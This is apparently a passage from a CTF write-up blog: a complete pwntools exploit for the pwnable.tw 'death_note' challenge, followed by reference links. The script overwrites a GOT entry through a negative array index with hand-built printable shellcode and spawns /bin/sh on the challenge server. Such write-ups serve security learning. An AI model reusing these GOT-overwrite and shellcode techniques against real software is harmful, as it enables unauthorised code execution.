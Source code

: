 ## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice :",str(c))
def add(idx,name="A\n"):
	cmd(1)
	p.sendlineafter("Index :",str(idx))
	p.sendafter("Name :",name)
def show(idx):
	cmd(2)
	p.sendlineafter("Index :",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Index :",str(idx))
def pwn(addr):
	idx=0xffffffff
	while(addr!=(idx*4+0x804a060) % 0x100000000):
		idx-=1
	return idx-0x100000000
#context.log_level='debug'
shellcode='''
push eax
pop ebx
pop eax
pop eax
push edx
push 0x40
pop edx

sub al,0x2e
sub byte ptr[eax + 0x23] , dl
sub byte ptr[eax + 0x23] , dl
push 0x33
pop edx
sub byte ptr[eax + 0x22] , dl
pop edx

push 0x6b
pop eax
sub al,0x60
'''
shellcode=asm(shellcode)
'''
for x in shellcode:
	if ord(x) <= 31 or  ord(x)>=127:
		warning("{} unable to print".format(hex(ord(x))))
print len(shellcode)
'''
p=process("./death_note")
p=remote("chall.pwnable.tw",10201)
#gdb.attach(p,'b *0x8048873')
add(pwn(0x804a014),shellcode+"\n")
add(1,"/bin/sh\n")
free(1)
p.interactive()
```
手撸可见字符的shellcode挺有意思的


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert